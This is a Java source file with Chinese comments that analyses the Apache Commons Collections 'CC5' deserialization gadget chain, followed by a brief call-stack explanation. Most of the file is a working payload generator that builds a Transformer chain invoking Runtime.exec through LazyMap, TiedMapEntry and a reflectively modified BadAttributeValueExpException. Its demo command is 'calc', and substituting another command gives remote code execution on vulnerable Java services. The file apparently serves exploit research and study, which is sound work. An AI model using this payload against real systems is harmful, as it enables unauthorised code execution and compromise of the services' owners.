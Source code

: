 	/**
	 * @author : p1n93r
	 * @date : 2021/4/1 22:514
	 * CC5 Gadget分析
	 * 和CC6类似，只不过最终TiedMapEntry不是放在HashMap和HashSet中,而是放在BadAttributeValueExpException
	 * 注意：仅支持JDK8u5-b01及以上的版本（低于这个版本没有实现readObject()方法）
	 */
	public class CC5 {
	
	    public static Object getPayload() throws Exception{
	        // 此时内部的Transformer是无效的，避免生成payload过程中提前执行
	        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
	                new ConstantTransformer(1)
	        });
	
	        // 真正的Transformer调用链
	        Transformer[] trueTransformer = {
	                new ConstantTransformer(Runtime.class),
	                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[0]}),
	                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{Runtime.class,new Object[0]}),
	                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
	        };
	
	        HashMap<Object, Object> hashMap = new HashMap<>();
	        Map evalMap = LazyMap.decorate(hashMap, chainedTransformer);
	
	        TiedMapEntry tiedMapEntry = new TiedMapEntry(evalMap, "test");
	
	        BadAttributeValueExpException res = new BadAttributeValueExpException(null);
	        Class<? extends BadAttributeValueExpException> clazz = res.getClass();
	        Field val = clazz.getDeclaredField("val");
	        val.setAccessible(true);
	        val.set(res,tiedMapEntry);
	
	        // 最后记得将真正的Transformer链放入ChainedTransformer
	        Class<? extends ChainedTransformer> chainedTransformerClass = chainedTransformer.getClass();
	        Field iTransformers = chainedTransformerClass.getDeclaredField("iTransformers");
	        iTransformers.setAccessible(true);
	        iTransformers.set(chainedTransformer,trueTransformer);
	        return res;
	    }
	    
	    public static void main(String[] args)throws Exception {
	        Object payload = getPayload();
	        SerialUtil.runPayload(payload);
	    }
	}

调用栈入下所示，主要是BadAttributeValueExpException#readObject()会触发TiedMapEntry#toString()，而TiedMapEntry#toString()会触发TiedMapEntry#getValue()，最终触发LazyMap#get:

![CC5调用栈][p14]
